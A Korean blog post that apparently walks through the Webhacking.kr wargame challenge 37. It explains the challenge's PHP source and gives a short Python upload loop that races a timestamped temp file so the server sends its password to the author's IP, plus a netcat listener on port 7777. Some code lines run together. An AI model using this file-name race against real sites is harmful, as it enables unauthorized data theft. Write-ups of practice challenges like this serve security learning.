 ```yaml
---
layout: post
title: "Webhacking.kr 37번 문제"
description: ""
date: 2017-07-14
tags: []
comments: true
share: true
---
```


![](/assets/images/posts/779/2775FB33596868D2391301.PNG)

  

37번은 250 스코어의 문제입니다.

  

문제를 보면, 알수 없는 파일 리스트와 7777 포트가 열려있는데 루프백 아이피 그리고 폼 버튼이 보입니다.

  

하단에 위치한 폼 버튼의 임의로 이미지 사진(20170213_230929.png)을 업로드 했습니다.

업로드 이 후, 이미지가 정상적으로 리스트에 나오는 것을 확인했습니다.

  

    ....numbertmp-1499973060tmp-1499996289tmp-1499996421tmp-1499996897tmp-1499996923127.0.0.1:7777

  

현재까지의 시점을 보았을 때, 이로는 정답의 실마리를 찾지 못하여

소스코드를 열어보니 `index.phps` 가 숨어있었습니다.

  

문제의 힌트를 위해 해당 파일의 경로로 이동합니다.

  

이동했다면 아래와 같이 문제를 구성하는 코드가 보일 것 입니다.

코드의 대해서 잠깐 얘기해보겠습니다.

  

로컬 시간을 `time` 변수에 대입하고 "tmp" 디렉토리에 "tmp-".$time 이라는 파일의 루프백 아이피를 넣어 생성합니다.

"tmp/.number" 파일은 파일의 갯수를 측정하는 파일로써 find 함수로 한줄 씩 읽으며 배열로 반환하고

그 수를 증가시킨 값을 다시 본 파일의 적습니다.

  

tmp 파일이 30개를 이상이면 unlink 하는 부분 또한 있는데 별로 중요한 내용은 아니니 설명하지 않겠습니다.

  

중요한 부분은 다음에 나오는 파일명 중 특정 문자열을 공백으로 치환하는 부분입니다.

치환의 대상자는 아래와 같다.

  

  * <
  * >
  * ,
  * .
  * space 

  

tmp 디렉토리 이하에서 업로드 된 파일명을 쓰기 모드로 열고 클라이언트의 공인 ip를 작성합니다.

  

이후 소켓 함수를 이용하여 ck 변수에 저장된 ip 값의 7777 포트로 연결합니다.

연결 뒤에는 request 변수에 저당된 값을 발신합니다.

  

이 것이 내가 수신 받아야할 정답 값인 것 입니다.

  

문제에서 요청 시 7777포트로 요청 아이피에 정답을 발신합니다.

정답을 수신하기 위해 nc를 사용하여 7777 포트를 열어줍니다.

  

    nc - nvl -p 7777

  

이 후 공유기 사용자의 경우 포트 포워드 설정해주시면됩니다.

  

  

매 요청 시 "tmp-{구분자 = 시간}" 값이 동적으로 변하기에 이를 저는 loop 를 사용하여 해결했습니다.

소스는 아래와 같습니다.

  

  

    import requestsurl = 'http://webhacking.kr/challenge/web/web-18/index.php'files = {	'upfile' : ('tmp-1500000845',open('tmp-1500000845','rb'),'multipart/form-data')}cookies = {	'PHPSESSID': '세션 키 값'}for i in xrange(60):	response=requests.post(url, files = files, cookies = cookies)	print response.text

  

    $pw="???";$time=time();$f=fopen("tmp/tmp-$time","w");fwrite($f,"127.0.0.1");fclose($f);$fck=@file("tmp/.number");if($fck) $fck=$fck[0];if(!$fck) $fck=0;$fck++;$f2=fopen("tmp/.number","w");fwrite($f2,$fck);fclose($f2);$file_nm=$HTTP_POST_FILES[upfile][name];$file_nm=str_replace("","",$file_nm);$file_nm=str_replace(".","",$file_nm);$file_nm=str_replace(" ","",$file_nm);if($file_nm){$f=@fopen("tmp/$file_nm","w");@fwrite($f,$_SERVER[REMOTE_ADDR]);@fclose($f);}echo("");$kk=scandir("tmp");for($i=0;$i");$ck=file("tmp/tmp-$time");$ck=$ck[0];$request="GET /$pw HTTP/1.0\r\n";$request.="Host: $ck\r\n";$request.="\r\n";$socket=@fsockopen($ck,7777,$errstr,$errno,1);@fputs($socket,$request);@fclose($socket);echo("$ck:7777");if($fck>=30){$kk=scandir("tmp");for($i=0;$i<=count($kk);$i++){@unlink("tmp/$kk[$i]");}}

  
  
클리어 !

  

